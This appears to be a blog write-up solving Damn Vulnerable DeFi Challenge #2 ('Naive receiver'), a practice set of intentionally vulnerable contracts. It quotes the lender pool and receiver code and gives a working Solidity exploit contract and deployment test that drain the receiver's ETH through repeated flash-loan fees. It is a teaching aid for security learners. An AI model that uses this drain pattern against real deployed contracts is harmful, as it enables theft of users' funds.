 ```yaml
---
isDraft: false
title: 'Damn Vulnerable DeFi Challenge #2 Solution'
description: 'Explanation of solution to Damn Vulnerable DeFi Challenge #2: Naive receiver'
tags: ['defi', 'solidity']
series: 'Damn Vulnerable DeFi'
publishDate: 'Feb 15, 2023'
---
```



# {frontmatter.title}

<Quote />

_Published {frontmatter.publishDate}_

> ## Challenge #2 - Naive receiver
>
> There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.
>
> A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.
>
> Take all ETH out of the user’s contract. If possible, in a single transaction.

The first thing that stands out in these contracts is that neither the pool nor the receiver implement any sort of access control. The pool's `flashLoan` function calls the `onFlashLoan` function on any contract that is set as the `receiver`.

```solidity
// contracts/naive-receiver/NaiveReceiverLenderPool.sol

function flashLoan(
    IERC3156FlashBorrower receiver,
    address token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    if (token != ETH) revert UnsupportedCurrency();

    uint256 balanceBefore = address(this).balance;

    // Transfer ETH and handle control to receiver
    SafeTransferLib.safeTransferETH(address(receiver), amount);
    if (
        receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS
    ) {
        revert CallbackFailed();
    }

    if (address(this).balance < balanceBefore + FIXED_FEE)
        revert RepayFailed();

    return true;
}
```

We can call the receiver's `onFlashLoan` function, and it will transfer back `amount` and `fee`. `amount` is set in the pool's `flashLoan` function's `amount` parameter. `fee` is set by the pool's `FIXED_FEE` constant (`1 ether`).

```solidity
// contracts/naive-receiver/FlashLoanReceiver.sol

function onFlashLoan(
    address,
    address token,
    uint256 amount,
    uint256 fee,
    bytes calldata
) external returns (bytes32) {
    assembly {
        // gas savings
        if iszero(eq(sload(pool.slot), caller())) {
            mstore(0x00, 0x48f5c3ed)
            revert(0x1c, 0x04)
        }
    }

    if (token != ETH) revert UnsupportedCurrency();

    uint256 amountToBeRepaid;
    unchecked {
        amountToBeRepaid = amount + fee;
    }

    _executeActionDuringFlashLoan();

    // Return funds to pool
    SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

    return keccak256("ERC3156FlashBorrower.onFlashLoan");
}
```

We can call `onFlashLoan` on the receiver through the pool's `flashLoan` function. The receiver will transfer the fee to the pool, so all we have to do is repeatedly call `onFlashLoan` until the receiver is drained. The challenge asks us to do it in one transaction, though.

To do so, we can create a loop in a contract's `constructor`, and it will run right when it is deployed. The contract's deployment will be our only transaction.

Let's create a contract that transfers everything to the pool from within its `constructor`.

```solidity
// contracts/naive-receiver/Hose.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

contract Hose {
    constructor(
        IERC3156FlashBorrower receiver,
        NaiveReceiverLenderPool pool
    ) {
        while (address(receiver).balance >= 1 ether)
            pool.flashLoan(receiver, pool.ETH(), 0, "");
    }
}
```

We call `flashLoan` on the pool until the receiver can no longer pay the fee. We set `flashLoan`'s `receiver` parameter as the receiver we want to call `onFlashLoan` on. The `token` parameter must be `0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE` or the function will revert. We can conveniently pass in the pool's `ETH` constant since it is `public`. The `amount` parameter doesn't matter in this case since the receiver does not do anything with the actual loan. It could really be anything between 0 and 1000 ETH (the pool's balance). The `data` parameter is also impactless, since the receiver just throws this argument out.

A `for` loop might be better here, so we can set the amount of times we loop, and control how much gas we spend. But since the `player` account is balling out with 10,000 ETH, it doesn't matter much in this case.

All that is left to do is compile and deploy our new contract.

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
  await (
    await ethers.getContractFactory('Hose', player)
  ).deploy(receiver.address, pool.address)
})
```
